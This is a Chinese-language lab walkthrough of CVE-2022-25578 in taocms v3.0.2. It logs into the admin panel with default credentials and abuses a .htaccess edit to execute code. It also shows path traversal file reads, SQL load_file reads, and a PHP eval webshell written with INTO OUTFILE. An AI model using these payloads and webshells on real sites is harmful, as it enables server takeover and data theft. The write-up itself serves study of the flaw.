










# CVE-2022-25578（taocms v3.0.2 .htaccess文件执行任意代码）

<div style="text-align: right;">

date: "2023-01-11"

</div>

## 漏洞描述

- taocms v3.0.2允许攻击者通过编辑.htaccess文件执行任意代码

## 漏洞原理

- 暂无

## 漏洞复现

后台登录页面：http://example.com/admin/admin.php ,通过公开信息找到账号密码：admin/tao



#### 第一个漏洞点

在文件管理下，编辑`.htaccess`文件，往里面加入：`AddType application/x-httpd-php .jpg`，然后在pictures目录下，新建chanyue.jpg，然后往里填入一句话木马。这里不知是靶场原因还是啥原因，点新建一直是空白页面也没有新建成功。这个漏洞就是将jpg文件解析成php文件，然后执行其中的php代码。



#### 第二个漏洞点

此cms还存在一个任意文件读取的漏洞，随便点击一个文件下载，然后抓包，将文件名改为`../../../../../../../../flag`，这里显示200但是无任何返回内容





### 第三处漏洞点

直接在其他的php文件中，加入一句话木马，这里我们选择rss.php



冰蝎直接连接获取到flag



### 第四处漏洞点

此cms有sql执行的功能，直接输入`select load_file('/flag')`，点击执行获取到flag



在这里也可以利用sql语句写入shell，在管理首页里面就有网站的绝对路径。蚁剑连接即可。

```
select "<?php @eval($_POST['pass']);?>" INTO OUTFILE "/var/www/html/chanyue.php"
```








